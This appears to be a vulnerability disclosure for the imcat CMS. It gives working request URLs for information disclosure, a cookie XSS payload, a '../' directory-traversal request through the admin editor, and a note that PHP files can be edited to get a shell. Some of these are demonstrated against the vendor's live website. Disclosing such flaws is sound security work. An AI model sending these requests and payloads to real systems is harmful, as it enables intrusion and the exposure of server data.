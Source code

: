 # Information-Disclosure
--------------------------
Visit to `/root/tools/adbug/binfo.php?phpinfo1`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Information-Disclosure_1-1.png)

The same problem exists in the official website.
Visit to `http://imcat.txjia.com/root/tools/adbug/binfo.php?phpinfo1`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Information-Disclosure_1-2.png)

# Information-Disclosure2
------------------------------
Visit to `/root/tools/adbug/binfo.php`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Information-Disclosure_2-1.png)

The same problem exists in the official website.
Visit to `http://imcat.txjia.com/root/tools/adbug/binfo.php`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Information-Disclosure_2-2.png)

# XSS
-------------------------------
Modify the value of the cookie to "><script>alert(1)</script>
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_XSS_1-1.png)

Visit to `/root/tools/adbug/binfo.php?cookie`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_XSS_1-2.png)

# Information-Disclosure3
------------------------------
Visit to `/root/tools/adbug/check.php`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Information-Disclosure_3-1.png)

The same problem exists in the official website.
Visit to `http://imcat.txjia.com/root/tools/adbug/check.php`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Information-Disclosure_3-2.png)

# Information-Disclosure4
------------------------------
If you don't have the relevant plugin installed, you can access `/dev.php?tools-ipaddr&api=Pcoln&uip=137.36.58.213`.
Obtain absolute path information by error.
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Information-Disclosure_4-1.png)

# Directory-Traversal
-------------------------------
D disk creat 1.txt
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Directory-Traversal_1-1.png)

Visit to `/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_Directory-Traversal_1-2.png)

# GETSHELL
-------------------------------
The php file can be modified directly without restricting user input.
![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_GETSHELL_1-1.png)
!![](https://github.com/AvaterXXX/CVEs/blob/master/images/imcat/imcat_GETSHELL_1-2.png)
